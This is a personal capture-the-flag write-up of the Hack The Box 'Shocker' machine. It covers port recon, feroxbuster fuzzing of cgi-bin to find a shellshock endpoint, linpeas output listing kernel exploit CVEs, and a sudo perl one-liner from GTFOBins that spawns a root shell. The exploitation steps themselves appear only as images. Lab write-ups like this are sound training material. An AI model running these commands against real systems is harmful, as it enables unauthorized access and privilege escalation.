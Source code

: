 # Shocker

## Recon
Only 2 ports exposed  
- 2222: ssh
- 80: apache webserver

The running version of SSH doesn't have any public exploits, so it seems pretty obvious the target will be a website for this challenge.

## Enumeration
Nothing stood out from the scanning docs. I had to step back and really ask myself some fundamental questions to move forward on this one.

### What does it do?

I've only been able to see the homepage `index.html` which appears to be a static page with a picture of a bug about to squash itself.

### What language is it written in?

Based on some feroxbuster output (403 errors) the site seems to have the following filetypes `aspx`, `asp`, `jsp`, `php`.

### What server software is the application running on?

Apache httpd 2.4.18 (Ubuntu)

## Getting help
I peaked at the walkthrough because I was lost.
No shocker - this machine was built to practice shellshock.  

On apache, the `cgi-bin` folder contains scripts. The scripts are accessed via web, run server side, then returned with an HTTP reply. Shellshock provides input that hijacks the server-side shell run. I also saw in the walkthrough that the target script is `/cgi-bin/user.sh`. 

But I want to prove this with a scan.

## fuzzing for shellshock
Found a shellshock endpoint by running
```bash
feroxbuster -u http://10.10.10.56:80/cgi-bin/ -t 10 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x "sh" -v -k -n -o /home/nate/hackthebox/shocker/results/scans/tcp80/tcp_80_http_feroxbuster_cgi-bin.txt
```
![[Pasted image 20220106200355.png]]

## Exploitation

![[Pasted image 20220106202024.png]]

![[Pasted image 20220106204959.png]]

I was able to get user.txt but not enough privs for root.txt

## Privilege Escalation

### Linpeas findings

> Sudo version 1.8.16

> ╔══════════╣ Executing Linux Exploit Suggester 2  
> ╚ https://github.com/jondonas/linux-exploit-suggester-2  
>   
> [1] af_packet  
> 	CVE-2016-8655  
> 	Source: http://www.exploit-db.com/exploits/40871  
> [2] exploit_x  
> 	CVE-2018-14665  
> 	Source: http://www.exploit-db.com/exploits/45697  
> [3] get_rekt  
> 	CVE-2017-16695  
> 	Source: http://www.exploit-db.com/exploits/45010  

> ╔══════════╣ Checking 'sudo -l', /etc/sudoers, and /etc/sudoers.d
> ╚https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid
> Matching Defaults entries for shelly on Shocker:  
> env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin  
> 
> User shelly may run the following commands on Shocker:  
> (root) NOPASSWD: /usr/bin/perl 

Might be able to use the following from GTFO bins to get root.
```
sudo perl -e 'exec "/bin/sh";'
```

![[Pasted image 20220106210114.png]]
